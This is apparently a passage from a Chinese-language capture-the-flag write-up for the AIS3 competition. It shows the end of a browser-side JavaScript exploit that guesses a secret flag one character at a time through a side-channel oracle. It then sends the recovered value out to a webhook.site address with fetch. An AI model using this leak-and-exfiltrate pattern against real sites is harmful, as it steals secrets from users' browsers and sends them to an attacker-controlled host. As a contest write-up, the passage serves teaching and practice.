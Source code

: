 ```html
  let flag = 'AIS3{'

  while (flag.indexOf('}') === -1) {
    for (const c of 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789/*-+_!@$%^()}{') {
      const result = await tryChar(flag, c)
      if (result.hit) {
        console.log(`Found character: ${result.c}`)
        flag += result.c
        break
      }
    }
  }

  await fetch(
    `https://webhook.site/5fb0e221-271b-400a-af90-874bbfb30e26?flag=${flag}`
  )
}
main()
</script>
```

一輪攻擊下來瀏覽器的 Network Graph 會長這樣：
